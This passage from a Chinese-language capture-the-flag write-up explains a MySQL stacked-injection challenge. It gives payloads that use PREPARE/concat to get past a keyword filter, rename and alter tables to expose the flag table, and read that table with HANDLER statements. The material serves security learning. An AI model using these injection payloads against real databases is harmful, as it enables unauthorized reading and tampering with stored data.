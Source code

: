 

```sql
1';PREPARE x from concat('s','elect', ' * from `1919810931114514` ');EXECUTE x;#
```



直接输入这三个payload的任何一个都能获得flag



注：在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符



eg. mysql> SELECT * FROM `table` WHERE `id` = '123' ;



1919810931114514必须用反单引号括起来（但是words不需要，应该是和数据类型有关）



##### 2.重命名+堆叠注入



###### rename 修改表名



```sql
1';rename table words to words1;rename table flag_here to words;#
# rename命令用于修改表名。
# rename命令格式：rename table 原表名 to 新表名;
```



###### rename/alter 修改表名与字段名



```sql
1';rename table words to words1;rename table flag_here to words;alter table words change flag id varchar(100);#
rename命令用于修改表名。
rename命令格式：rename table 原表名 to 新表名;
```



##### 3.利用 HANDLER 语句



如果rename、alter被过滤了，我们可以借助HANDLER语句来bypass。在不更改表名的情况下读取另一个表中的数据。



`HANDLER ... OPEN` 语句打开一个表，使其可以使用后续 `HANDLER ... READ` 语句访问，该表对象未被其他会话共享，并且在会话调用 `HANDLER ... CLOSE` 或会话终止之前不会关闭，详情请见：https://www.cnblogs.com/taoyaostudy/p/13479367.html



```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#
或
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;#
```
